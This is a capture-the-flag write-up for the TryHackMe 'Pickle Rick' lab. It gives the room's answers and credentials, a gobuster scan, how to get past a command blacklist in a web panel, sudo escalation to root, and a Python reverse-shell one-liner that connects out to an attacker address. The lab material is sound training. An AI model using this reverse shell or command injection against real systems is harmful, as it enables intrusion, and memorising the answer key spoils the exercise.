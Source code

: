 ## TryHackMe | Pickle Rick
https://tryhackme.com/room/picklerick

---

IP: 10.10.37.39
URL: https://10-10-37-39.p.thmlabs.com/

### Questions: 
1. What is the first ingredient Rick needs?  
Answer: mr. meeseek hair
Location: http://10.10.37.39/Sup3rS3cretPickl3Ingred.txt or `/var/www/html/Sup3rS3cretPickl3Ingred.txt`

2. Whats the second ingredient Rick needs?  
Answer: 1 jerry tear
Location:` /home/rick/"second ingredients"`

3. Whats the final ingredient Rick needs?
Answer: fleeb juice
Location: `/root/3rd.txt`

---
### Methods

From url:
Username: R1ckRul3s

From robots.txt:
Password: Wubbalubbadubdub


1. Run gobuster scan with extensions lookup (txt,html,css,js,py,php)
> ```bash
> gobuster dir -u http://10.10.246.225 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,css,js,html,txt,py,cgi,sh
> ```

2. Go to the URL as above, respective to given IP.
3. From the gobuster results, go to the `portal.php` page. 
4. Using the username and password received in index.html and robots.txt respectively, login to portal page.
5. Run `ls` command to find the first secret ingredient text file. Use `less` to display the file since cat, more and others are blacklisted. Read the notes below**
> Inspect the `portal.php` for blacklisted command
> 
> Blacklisted command:
> > "cat", "head", "more", "tail", "nano", "vim", "vi"
6. You have found all the info needed to find the second ingredients in `/home/rick`
7. Check `sudo -l` to find what can be run as sudo
8. Use sudo to display the file in /root by running the command in the `portal.php` command field
> ```bash
> sudo less /root/3rd.txt
> ```


**Another method to solve all this is by establishing reverse shell connection thru the `portal.php` command field. **

1. Setup netcat listener at port 9999
2. Run the following python revshell payload into the `portal.php` command field.
Python3 revshell payload:
> ```bash
> python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.26.94",9999));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
> ```
3. In this machine, the user has unlimited sudo privilege. go to root with `sudo bash`

---
### Notes

- Alternatives to cat,more,less
> `grep . <filename>`

- Inspect `portal.php` for restricted commands
- There is a base64 text in `portal.php` that translated to "rabbit hole"
> Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==

- Alternatively, run python and netcat to establish reverse shell